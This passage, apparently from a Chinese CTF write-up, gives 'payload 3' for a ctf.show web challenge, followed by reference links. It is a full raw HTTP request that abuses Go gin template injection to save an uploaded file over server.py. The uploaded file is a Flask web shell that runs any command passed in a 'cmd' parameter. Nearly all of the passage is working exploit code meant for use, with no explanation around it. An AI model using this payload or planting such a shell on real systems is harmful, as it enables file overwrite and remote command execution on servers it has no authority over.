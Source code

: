 **payload 3**

```bash
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}} HTTP/1.1
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Cache-control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Mobile Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Referer: /go_session/python/server.py
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: xxx

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name=file; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```

参考文章：  
[https://ctf.njupt.edu.cn/archives/898](https://ctf.njupt.edu.cn/archives/898)  
[https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7](https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7)  
[https://forum.butian.net/share/1286](https://forum.butian.net/share/1286)  
[https://zhuanlan.zhihu.com/p/628060790](https://zhuanlan.zhihu.com/p/628060790)
